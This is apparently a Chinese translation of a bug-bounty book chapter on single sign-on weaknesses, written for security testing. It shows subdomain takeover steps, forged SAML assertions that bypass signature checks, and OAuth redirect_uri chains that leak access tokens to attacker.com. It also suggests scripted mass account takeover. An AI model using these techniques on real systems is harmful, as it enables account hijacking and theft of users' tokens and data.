



# 20

单点登录安全问题


*单点登录（**SSO**）*是一种允许用户在不需要多次登录的情况下访问属于同一组织的多个服务的功能。一旦你登录了一个使用 SSO 的网站，在访问属于同一公司其他服务或资源时，就无需再次输入凭证。例如，如果你已经登录了*facebook.com*，就无需重新输入凭证来使用*messenger.com*，这是 Facebook 的一个服务。

这种做法对拥有许多 Web 服务的公司来说非常方便，因为他们可以管理集中式的用户凭证源，而不必为每个网站追踪一套不同的用户。用户也能节省时间，因为在使用同一公司提供的不同服务时无需多次登录。由于它大大简化了公司和用户的操作，SSO 已成为互联网的常见做法。

但是，也出现了威胁 SSO 系统的新漏洞。在本章中，我们将讨论开发人员用于实现 SSO 的三种方法，以及与每种方法相关的一些漏洞。

## 机制

Cookie 共享、SAML 和 OAuth 是实现 SSO 的三种最常见方式。每种机制都有其独特的优点和缺点，开发者会根据需求选择不同的方式。

### 烹饪共享

如果需要共享认证的服务位于同一父域名下，实现 SSO 非常简单，就像*www.facebook.com*和*m.facebook.com*的 Web 和移动版本一样。在这种情况下，应用程序可以在子域名之间共享 Cookie。

#### Cookie 共享如何工作

现代浏览器允许站点在子域名之间共享 Cookie，只要 Cookie 的`Domain`标志设置为共同的父域名。例如，如果服务器设置一个如下所示的 Cookie，该 Cookie 将被发送到*facebook.com*的所有子域名：

```
Set-Cookie: cookie=abc123; **Domain=facebook.com**; Secure; HttpOnly
```

然而，并非所有应用程序都可以使用这种方法，因为在不同的域名之间不能这样共享 Cookie。例如，*facebook.com*和*messenger.com*无法共享 Cookie，因为它们没有共同的父域名。

此外，这种简单的 SSO 设置也存在独特的安全漏洞。首先，由于会话 Cookie 在所有子域名之间共享，攻击者可以通过窃取用户的一个 Cookie，接管所有属于同一父域名下网站的账户。通常，攻击者可以通过找到像跨站脚本攻击（XSS）这样的漏洞来窃取会话 Cookie。

另一种常见的通过共享会话 SSO 进行攻击的方法是利用子域名接管漏洞。

#### 子域名接管

简而言之，*子域名接管*发生在攻击者接管了公司未使用的子域名时。

假设一家公司将其子域名托管在第三方服务上，如 AWS 或 GitHub Pages。公司可以使用 DNS CNAME 记录将子域名指向第三方站点的另一个 URL。这样，每当用户请求该官方子域名时，他们会被重定向到第三方网页。

例如，假设一个组织想要将其子域名 *abc.example.com* 托管在 GitHub 页面 *abc_example.github.io* 上。该组织可以使用 DNS CNAME 记录将 *abc.example.com* 指向 *abc_example.github.io*，这样尝试访问 *abc.example.com* 的用户就会被重定向到 GitHub 托管的页面。

但是，如果这个第三方站点被删除，指向该第三方站点的 CNAME 记录将继续存在，除非有人记得删除它。我们将这些被遗弃的 CNAME 记录称为 *悬空 CNAME*。由于第三方页面现在没有被认领，任何人只要在第三方服务上注册该站点，就能控制该公司的子域名。

假设我们示例中的公司后来决定删除 GitHub 页面，但忘记删除指向 *abc_example.github.io* 的 CNAME 记录。由于 *abc_example.github.io* 现在没有被认领，任何人都可以注册一个 GitHub 账户并在 *abc_example.github.io* 上创建一个 GitHub 页面。由于 *abc.example.com* 仍然指向 *abc_example.github.io*，因此 *abc_example.github.io* 的所有者现在可以完全控制 *abc.example.com*。

子域名接管允许攻击者发起复杂的钓鱼攻击。用户有时会检查他们访问页面的域名是否合法，而子域名接管让攻击者可以利用合法的域名托管恶意页面。例如，控制了 *abc.example.com* 的攻击者可以在 GitHub 页面上托管一个看起来像 *example.com* 的页面，诱骗用户提供他们的凭证。

但如果该组织使用了 cookie 共享，子域名接管可能变得更加危险。想象一下，*example.com* 实现了基于共享会话的 SSO 系统。它的 cookies 将会发送到 *example.com* 的任何子域名，包括 *abc.example.com*。现在，控制了 *abc.example.com* 的攻击者可以在那里托管恶意脚本来窃取会话 cookies。他们可以诱使用户访问 *abc.example.com*，比如将其作为假图片托管，或将链接发送给用户。只要受害者已经登录过 *example.com* 的 SSO 系统，受害者的浏览器就会把他们的 cookie 发送到攻击者的网站。攻击者可以窃取受害者的共享会话 cookie，并以受害者的身份登录所有共享同一会话 cookie 的服务。

如果攻击者能够通过接管一个子域名来窃取共享会话 cookie，那么所有 *example.com* 的站点都会面临风险。因为单个子域名的泄露可能意味着整个 SSO 系统的完全泄露，所以将共享 cookie 作为 SSO 机制会大大增加每个服务的攻击面。

### 安全声明标记语言

*安全声明标记语言 (**SAML)** 是一种基于 XML 的标记语言，用于在大规模应用程序中促进单点登录（SSO）。SAML 通过促进用户、身份提供者和服务提供者之间的信息交换来实现单点登录。

#### SAML 工作原理

在 SAML 系统中，用户从身份提供者获得身份声明，并用它向服务提供者进行身份验证。*身份*提供者是负责验证用户身份并将用户信息传递给服务提供者的服务器。*服务提供者*是用户打算访问的实际站点。

图 20-1 说明了这个过程是如何工作的。



图 20-1：SAML 身份验证过程的简化视图

首先，你尝试从服务提供者访问资源。由于你没有登录，服务提供者会要求你向身份提供者发送一个 SAML 请求。一旦你提供了凭证，身份提供者将向你发送一个 SAML 响应，你可以用它来向服务提供者进行身份验证。SAML 响应包含一个身份声明，用于向服务提供者传达你的身份。这些通常是唯一可识别的信息，例如你的用户名、电子邮件地址或用户 ID。例如，看看以下 SAML 身份声明，它通过用户的用户名传达了用户的身份：

```
<saml:AttributeStatement> <saml:Attribute Name="username"> <saml:AttributeValue> user1 </saml:AttributeValue> </saml:Attribute>
</saml:AttributeStatement>
```

#### SAML 漏洞

如你在图 20-1 中看到的，访问服务提供者持有的资源的关键在于 SAML 响应。能够控制传递给服务提供者的 SAML 响应的攻击者可以冒充他人进行身份验证。因此，应用程序需要保护其 SAML 消息的完整性，通常是通过使用签名来签署消息来实现这一点。

如果 SAML 签名正确实现，SAML 可以是安全的。然而，如果攻击者找到绕过签名验证并伪造身份声明以冒充他人身份的方法，其安全性就会崩溃。例如，如果攻击者能够更改 SAML 声明中嵌入的用户名，他们就可以作为另一个用户登录。

大多数应用程序应用于 SAML 消息的数字签名确保没有人能够篡改它们。如果 SAML 消息的签名错误，它将不会被接受：

```
<saml:Signature> <saml:SignatureValue> **dXNlcjE=** </saml:SignatureValue>
</saml:Signature>
<saml:AttributeStatement> <saml:Attribute Name="username"> <saml:AttributeValue> user1 </saml:AttributeValue> </saml:Attribute>
</saml:AttributeStatement>
```

不幸的是，SAML 的安全机制并不总是得到很好的实现。有时，SAML 签名根本没有被实现或验证！如果是这种情况，攻击者可以随意伪造 SAML 响应中的身份信息。其他时候，开发人员犯了一个错误，只在签名存在时才验证签名。这样，攻击者可以清空签名字段或完全删除该字段，从而绕过安全措施。

最后，如果用于生成签名的签名机制很弱或可预测，攻击者可以伪造签名。如果仔细查看之前签名的 SAML 消息，你会发现签名`dXNlcjE=`实际上是`user1`的 base64 编码。我们可以推测使用的签名机制是`base64(``username``)`。为了伪造`victim_user`的有效身份断言，我们可以将签名字段改为`base64("``victim_user")`，即`dmljdGltX3VzZXI=`，从而获得作为`victim_user`的有效会话：

```
<saml:Signature> <saml:SignatureValue> **dmljdGltX3VzZXI=** </saml:SignatureValue>
</saml:Signature>
<saml:AttributeStatement> <saml:Attribute Name="username"> <saml:AttributeValue> victim_user </saml:AttributeValue> </saml:Attribute>
</saml:AttributeStatement>
```

开发者常犯的另一个错误是认为仅靠加密就能为 SAML 消息提供足够的安全性。加密保护的是消息的机密性，而不是完整性。如果 SAML 响应被加密但未签名，或者使用了弱签名，攻击者可以尝试篡改加密消息，从而干扰身份断言的结果。

有许多有趣的方式可以在不破解加密的情况下篡改加密消息。这些技术的细节超出了本书的范围，但我鼓励你在互联网上查找相关资料。要了解更多关于加密攻击的信息，请访问维基百科：[`en.wikipedia.org/wiki/Encryption#Attacks_and_countermeasures`](https://en.wikipedia.org/wiki/Encryption#Attacks_and_countermeasures)。

SAML 消息也是敏感数据泄露的常见来源。如果 SAML 消息包含敏感的用户信息，比如密码，且未加密，那么截获受害者流量的攻击者可能能够窃取这些信息。

最后，攻击者可以利用 SAML 作为将恶意输入传送到站点的载体。例如，如果 SAML 消息中的某个字段传递到数据库，攻击者可能会污染该字段以实现 SQL 注入。根据 SAML 消息在服务器端的使用方式，攻击者还可能执行 XSS、XXE 及一系列其他恶意 Web 攻击。

所有这些 SAML 漏洞都源于未通过使用签名和加密来保护 SAML 消息。应用程序应该使用强加密和签名算法，并保护其密钥免受盗窃。此外，敏感的用户信息，如密码，不应通过未加密的 SAML 消息传输。最后，和所有用户输入一样，SAML 消息应该在使用之前进行清理，并检查是否存在恶意用户输入。

### OAuth

我们将讨论的最终 SSO 实现方式是 OAuth。*OAuth*本质上是一种让用户通过身份提供者向服务提供商授予特定范围访问令牌的方式。身份提供者在一个地方管理凭证和用户信息，并允许用户通过向服务提供商提供有关用户身份的信息来进行登录。

#### OAuth 的工作原理

当你使用 OAuth 登录到应用程序时，服务提供者会请求从身份提供者那里获取你的信息。这些资源可能包括你的电子邮件地址、联系人、出生日期以及其他任何有助于确定你身份的数据。这些权限和数据被称为*范围（scope）*。身份提供者随后会创建一个唯一的`access_token`，服务提供者可以用它来获取范围内定义的资源。

让我们进一步解析。当你通过 OAuth 登录到服务提供者时，服务提供者发送给身份提供者的第一个请求是请求`授权`。该请求将包括服务提供者的`client_id`，用于标识服务提供者的客户端 ID，一个用于重定向身份验证流程的`redirect_uri`，一个列出请求权限的`scope`，以及一个`state`参数，基本上是一个 CSRF 令牌：

```
identity.com/oauth?
client_id=`CLIENT_ID`
&response_type=code
&state=`STATE`
&redirect_uri=https://example.com/callback
&scope=email
```

然后，身份提供者将要求用户授予服务提供者访问权限，通常通过弹窗的方式。图 20-2 展示了 Facebook 用来请求你的同意，以便在你选择通过 Facebook 登录 Spotify 时，将信息发送到*spotify.com*。



图 20-2：在典型 OAuth 流程中看到的同意弹窗

在用户同意服务提供者请求的权限后，身份提供者将通过`redirect_uri`发送一个授权码：

```
https://example.com/callback?authorization_code=abc123&state=STATE
```

服务提供者可以通过使用授权码、以及他们的客户端 ID 和密钥，从身份提供者获取`access_token`。客户端 ID 和客户端密钥用于认证服务提供者身份：

```
identity.com/oauth/token?
client_id=`CLIENT_ID`
&client_secret=CLIENT_SECRET
&redirect_uri=https://example.com/callback
&code=abc123
```

身份提供者将返回`access_token`，该令牌可以用来访问用户的信息：

```
https://example.com/callback?#access_token=xyz123
```

例如，服务提供者可能会向身份提供者发起请求，获取访问用户电子邮件的访问令牌。然后，它可以使用从身份提供者获取的电子邮件作为证明用户身份的方式，登录到与该电子邮件地址注册的账户。

#### OAuth 漏洞

有时攻击者可以通过窃取关键的 OAuth 令牌绕过 OAuth 身份验证，方法是利用开放重定向漏洞。攻击者通过篡改`redirect_uri`参数，从受害者账户中窃取`access_token`。

`redirect_uri`决定了身份提供者将如何发送关键信息，如`access_token`。因此，大多数主要的身份提供者要求服务提供者指定一个允许列表的 URL 来用作`redirect_uri`。如果请求中提供的`redirect_uri`不在允许列表中，身份提供者将拒绝该请求。例如，如果只允许*example.com*的子域，以下请求将被拒绝：

```
client_id=`CLIENT_ID`
&response_type=code
&state=`STATE`
&redirect_uri=https://attacker.com
&scope=email
```

但如果某个允许的 `redirect_uri` URL 内存在开放重定向漏洞怎么办？通常，`access_token` 是通过 URL 片段传递的，该片段在所有跨域重定向中都能保持。如果攻击者能够使 OAuth 流程最终重定向到攻击者的域名，他们就可以从 URL 片段中窃取 `access_token`，并获取用户的账户访问权限。

重定向 OAuth 流程的一种方式是通过基于 URL 参数的开放重定向。例如，使用以下 URL 作为 `redirect_uri`

```
redirect_uri=https://example.com/callback?next=attacker.com
```

将首先导致流程重定向到回调 URL

```
https://example.com/callback?next=attacker.com#access_token=xyz123
```

然后重定向到攻击者的域名：

```
https://attacker.com#access_token=xyz123
```

攻击者可以向受害者发送一个精心构造的 URL，这将启动 OAuth 流程，然后在他们的服务器上运行一个监听器来收集泄露的令牌：

```
identity.com/oauth?
client_id=`CLIENT_ID`
&response_type=code
&state=`STATE`
&redirect_uri=https://example.com/callback?next=attacker.com
&scope=email
```

重定向 OAuth 流程的另一种方式是通过基于 referer 的开放重定向。在这种情况下，攻击者必须通过从他们的域名发起 OAuth 流程来设置 referer 头：

```
<a href="https://example.com/login_via_facebook">Click here to log in to example.com</a>
```

这将导致流程首先重定向到回调 URL：

```
https://example.com/callback?#access_token=xyz123
```

然后，它将通过 referer 重定向到攻击者的域名：

```
https://attacker.com#access_token=xyz123
```

即使攻击者无法在 OAuth 端点本身找到开放重定向，他们仍然可以通过找到一个*开放重定向链*来窃取令牌并将其带离站点。例如，假设 `redirect_uri` 参数仅允许进一步重定向到*example.com* 域名下的 URL。如果攻击者能在该域名内找到开放重定向，他们仍然可以通过重定向窃取 OAuth 令牌。假设在 *example.com* 的登出端点存在未修复的开放重定向：

```
https://example.com/logout?next=attacker.com
```

通过利用这个开放重定向，攻击者可以形成一条重定向链，最终将令牌带离站点，流程开始于以下内容：

```
redirect_uri=https://example.com/callback?next=example.com/logout?next=attacker.com
```

这个 `redirect_uri` 将首先导致流程重定向到回调 URL：

```
https://example.com/callback?next=example.com/logout?next=attacker.com#access_token=xyz123
```

然后重定向到容易受到开放重定向攻击的登出 URL：

```
https://example.com/logout?next=attacker.com#access_token=xyz123
```

然后它将重定向到攻击者的域名。攻击者可以通过他们的服务器日志收集访问令牌，并通过窃取的令牌访问用户的资源：

```
https://attacker.com#access_token=xyz123
```

除了通过开放重定向窃取访问令牌外，长期有效且不会过期的令牌也是一个主要的 OAuth 漏洞。有时候，令牌不会定期失效，攻击者在令牌被盗后很长时间仍然可以使用它们，并且即使密码重置后也保持有效。你可以通过在登出后和密码重置后使用相同的访问令牌来测试这些问题。

## 寻找子域接管漏洞

让我们从寻找 SSO 漏洞开始，通过寻找一些子域接管漏洞。可靠发现子域接管的最佳方法是构建一个系统，监控公司子域的接管情况。但在你这样做之前，让我们看看如何手动搜索子域接管漏洞。

### 第 1 步：列出目标的子域

首先，你需要构建一个目标的所有已知子域名列表。这可以通过使用第五章中提到的工具来完成。接下来，使用截图工具如 EyeWitness 或 Snapper 来查看每个子域名上托管的内容。

### 第 2 步：查找未注册的页面

寻找第三方页面，表明该页面未被注册。例如，如果该第三方页面托管在 GitHub Pages 上，你应该在子域名上看到类似图 20-3 的内容。

即使你发现了悬挂的 CNAME，并非所有的第三方托管服务提供商都易受接管攻击。一些服务提供商采用措施验证用户身份，以防止他人注册与 CNAME 记录相关联的页面。目前，托管在 AWS、Bitbucket 和 GitHub 上的页面是易受攻击的，而 Squarespace 和 Google Cloud 上的页面则不是。你可以在 EdOverflow 的页面上找到哪些第三方网站易受攻击的完整列表（[`github.com/EdOverflow/can-i-take-over-xyz/`](https://github.com/EdOverflow/can-i-take-over-xyz/)）。你也可以在那里找到表明页面未注册的页面签名列表。



图 20-3：指示该页面托管在 GitHub Pages 上且未被注册的标识

### 第 3 步：注册页面

一旦你确定该页面易受接管攻击，你应该尝试在第三方网站上注册该页面，以确认该漏洞。注册页面时，前往第三方网站并声明该页面归你所有；实际步骤根据第三方服务提供商的不同而有所不同。在该页面上托管一个无害的概念验证页面，证明子域名接管漏洞，例如一个简单的 HTML 页面：

```
<html>Subdomain Takeover by Vickie Li.</html>
```

确保在公司通过删除悬挂的 DNS CNAME 或重新声明第三方服务上的页面来缓解漏洞之前，保持该网站已注册。如果你不这样做，恶意攻击者可能会在漏洞报告处理期间接管该子域名。

如果该站点使用共享 cookie 的单点登录（SSO），你可能能够通过子域名接管窃取 cookies。寻找在服务器响应中能够发送到多个子域名的 cookie。共享 cookie 会带有 `Domain` 属性，指定可以访问该 cookie 的子域名父级：

```
Set-Cookie: cookie=abc123; **Domain=example.com**; Secure; HttpOnly
```

然后，你可以登录合法站点，并在同一个浏览器中访问你的网站。你可以监控你新注册站点的日志，以确定是否将你的 cookies 发送给了它。如果你新注册站点的日志收到你的 cookies，那么你发现了一个可以用来窃取 cookies 的子域名接管漏洞！

即使你发现的子域名接管无法用来窃取共享会话 cookie，它仍然被视为一个漏洞。子域名接管可用于对网站用户发起钓鱼攻击，因此你仍然应该将其报告给相关组织！

## 监控子域名接管

许多黑客会构建一个监控系统，持续扫描子域名接管，而不是手动寻找。这是非常有用的，因为网站经常更新其 DNS 记录并删除第三方网站上的页面。你永远无法知道网站什么时候会被下线，何时会有新的悬空 CNAME 引入目标资产中。如果这些变化导致了子域名接管，你可以通过定期扫描接管情况，在别人之前发现它。

要创建一个持续监控子域名接管的系统，你只需要自动化我之前描述的手动寻找方法。在这一部分，我将介绍一些自动化策略，具体的实现交给你：

****编制目标组织所属子域名的列表****

定期扫描目标以监控新的子域名。每当发现新的服务时，将其添加到这个监控的子域名列表中。

****扫描列表中的子域名，查看其 CNAME 记录是否指向托管在易受攻击的第三方服务上的页面****

为此，你需要解析子域名的基础 DNS 域名，并根据 URL 中的关键词判断它是否托管在第三方提供商上。例如，指向包含字符串*github.io*的 URL 的子域名托管在 GitHub Pages 上。还需要确定你找到的第三方服务是否容易受到接管攻击。如果目标网站仅托管在不易受到子域名接管的服务上，那么就无需扫描它们是否存在潜在的接管风险。

****确定每个外部服务的未注册页面的标志性特征****

大多数服务会有一个自定义的 404 未找到页面，表示该页面未注册。你可以利用这些页面来检测潜在的接管。例如，如果返回的 HTTP 响应中包含字符串`There isn't a GitHub Pages site here`，那么托管在 GitHub Pages 上的页面就容易受到攻击。对第三方托管的子域名发出请求，并扫描响应以查找这些标志性字符串。如果发现其中一个标志，说明该页面可能容易受到接管。

提高这个寻找过程效率的一种方式是让你的自动化解决方案在后台运行，仅在找到疑似接管时通知你。你可以设置一个定时任务，定期运行你创建的脚本。只有在监控系统检测到可疑情况时，它才会提醒你：

```
30 10 * * * cd /Users/vickie/scripts/security; ./subdomain_takeover.sh
```

在脚本通知你潜在的子域名接管后，你可以通过在外部服务上注册该页面来验证该漏洞。

## 寻找 SAML 漏洞

现在让我们讨论如何找到存在缺陷的 SAML 实现并利用它们绕过目标的 SSO 访问控制。在开始之前，确保确认该网站确实使用 SAML。你可以通过拦截用于身份验证的流量并查找类似 XML 的消息或关键字 `saml` 来确定这一点。请注意，SAML 消息并不总是以纯 XML 格式传递。它们可能被编码为 base64 或其他编码方案。

### 第一步：定位 SAML 响应

首先，你需要定位 SAML 响应。通常可以通过拦截浏览器和服务提供商之间的请求来做到这一点。SAML 响应将在用户的浏览器为该特定服务提供商登录新会话时发送。

### 第二步：分析响应字段

一旦你定位了 SAML 响应，你可以分析其内容，查看服务提供商使用哪些字段来确定用户身份。由于 SAML 响应用于将身份验证数据传递给服务提供商，它必须包含传递这些信息的字段。例如，查找像 `username`、`email address`、`userID` 等字段名称。尝试在代理中篡改这些字段。如果 SAML 消息没有签名，或者 SAML 响应的签名根本没有经过验证，篡改消息就是你需要做的唯一操作来冒充其他人进行身份验证！

### 第三步：绕过签名

如果你正在篡改的 SAML 消息确实有签名，你可以尝试几种策略来绕过它。

如果签名仅在存在时进行验证，你可以尝试从 SAML 响应中移除签名值。有时这可能是绕过安全检查所需的唯一操作。你可以通过两种方式做到这一点。首先，你可以清空签名字段：

```
**<saml:Signature>** **<saml:SignatureValue>** **</saml:SignatureValue>****</saml:Signature>**
<saml:AttributeStatement> <saml:Attribute Name="username"> <saml:AttributeValue> victim_user </saml:AttributeValue> </saml:Attribute>
</saml:AttributeStatement>
```

或者你也可以尝试完全移除该字段：

```
<saml:AttributeStatement> <saml:Attribute Name="username"> <saml:AttributeValue> victim_user </saml:AttributeValue> </saml:Attribute>
</saml:AttributeStatement>
```

如果应用程序使用的 SAML 响应签名是可预测的，比如我们之前讨论的 base64 示例，你可以简单地重新计算签名并伪造一个有效的 SAML 响应。

### 第四步：重新编码消息

在篡改 SAML 响应后，重新编码消息为其原始形式并将其发送回服务提供商。服务提供商将使用该信息来验证你的身份。如果成功，你将获得属于受害者帐户的有效会话。SAML Raider 是一个 Burp Suite 扩展，可以帮助你编辑和重新编码 SAML 消息。

## 寻找 OAuth 令牌盗窃

在开始寻找 OAuth 开放重定向问题之前，你应该首先确定网站是否使用 OAuth。你可以通过拦截网站上的身份验证请求并在 HTTP 消息中查找 `oauth` 关键字来确定这一点。

然后开始寻找开放重定向漏洞。你可以在第七章找到关于如何寻找开放重定向的详细信息。最后，看看你能否通过你找到的开放重定向将 OAuth 令牌泄露到站外。

## 升级攻击

SSO 绕过通常意味着攻击者能够接管他人的账户。因此，在任何升级尝试之前，这些漏洞的严重性较高。但你可以通过尝试接管具有高权限的账户（如管理员账户）来升级 SSO 绕过漏洞。

此外，在你接管了某个网站用户的账户后，可以尝试使用相同的 OAuth 凭证访问受害者在其他网站上的账户。例如，如果你通过子域接管泄露了某个员工的 cookies，试着用相同的凭证访问他们公司内部的服务，如管理员面板、商业智能系统和人力资源应用程序。

你还可以通过编写脚本来自动化接管大量账户，从而提升账户接管的规模。最后，你可以尝试泄露数据、执行敏感操作或利用已经接管的账户接管应用程序。例如，如果你能够绕过银行网站的 SSO，你能否读取私人信息或非法转账？如果你接管了一个管理员账户，能否更改应用程序设置或以管理员身份执行脚本？再次提醒，务必谨慎行事，除非已获得授权，否则不要进行任何测试。

## 寻找你的第一个 SSO 绕过漏洞！

现在你已经熟悉了一些 SSO 绕过技巧，尝试找到你的第一个 SSO 绕过漏洞：

1.  如果目标应用程序使用单点登录（SSO），确定正在使用的 SSO 机制。

1.  如果应用程序使用共享会话 cookie，尝试通过子域接管来窃取会话 cookie。

1.  如果应用程序使用基于 SAML 的 SSO 方案，测试服务器是否正确验证 SAML 签名。

1.  如果应用程序使用 OAuth，尝试通过开放重定向窃取 OAuth 令牌。

1.  将你关于 SSO 绕过的报告提交给漏洞赏金计划！
